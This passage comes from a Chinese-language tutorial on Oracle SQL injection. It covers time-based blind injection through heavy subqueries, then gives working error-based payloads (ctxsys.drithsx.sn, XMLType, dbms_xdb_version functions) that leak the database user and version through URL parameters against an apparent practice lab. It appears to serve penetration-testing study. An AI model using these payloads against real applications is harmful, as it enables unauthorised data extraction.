 ![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_56_NgMnoAye.png)
依次求解数据库，表，列名，字段值
#### 子查询/超大表构造时间盲注
时间盲注不一定要用DBMS_PIPE.RECEIVE_MESSAGE()函数，当在进行笛卡尔积，或者查询系统表，子查询大表的时候也会造成数据库查询时间很慢，比如在布尔盲注中查询当前用户权限可访问的数据库，需要一个一个表示的时候，在子查询中去重就会消耗大量时间，如下：
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_56_FMt817DO.png)
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_56_0OB7wlrz.png)
## 报错注入
[报错注入靶场环境](http://o1.lab.aqlab.cn:81/?id=1)
在进行报错注入之前，首先要确定目标环境在web页面上是否有错误回显，通常使用order by 大数字，或者构造错误的sql语句来判断，介绍几种报错注入函数，其他payload也就是换子查询的SQL语句
### ctxsys.drithsx.sn()
```sql
select ctxsys.drithsx.sn(1,(select user from dual))
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_57_E9GUI1Zh.png)
```sql
?id=1 and ctxsys.drithsx.sn(1,(select user from dual))=1--
?id=1 and ctxsys.drithsx.sn(1,(select banner from v$version))=1--
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/21929389/1632627825564-4dc7894a-75cd-4c5b-af18-4db23867ed58.png#averageHue=%23fcf7f5&clientId=ub714a196-bb81-4&from=paste&height=185&id=u9331b388&originHeight=185&originWidth=1414&originalType=binary&ratio=1&rotation=0&showTitle=false&size=36415&status=done&style=none&taskId=u29ce5fb0-c7bd-4a32-8d8f-8fe45b78ccf&title=&width=1414)![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_57_UcdD4naR.png)
### XMLType()
```sql
select upper(xmltype(chr(60)||chr(58)||(select user from dual)||chr(62))) from dual;
```
```sql
-- paylaod
and (select upper(xmltype(chr(60)||chr(58)||(select user from dual)||chr(62))) from dual) is not null--
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_57_KLSrI0Mn.png)
### dbms_xdb_version.checkin()
```sql
select dbms_xdb_version.checkin((select user from dual)) from dual
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_58_WkcEuflN.png)
```sql
--payload
and (select dbms_xdb_version.checkin((select user from dual)) from dual) is not null--
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_58_PCZbE5h2.png)
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_58_gDiV38AP.png)
### dbms_xdb_version.makeversioned()
```sql
select dbms_xdb_version.makeversioned((select user from dual)) from dual
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_41_00_8VBNAwnE.png)
```sql
and (select dbms_xdb_version.makeversioned((select user from dual)) from dual) is not null
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_41_01_0WrFf7sp.png)
### dbms_xdb_version.uncheckout()
```sql
select dbms_xdb_version.uncheckout((select banner from sys.v_$version where rownum=1)) from dual
```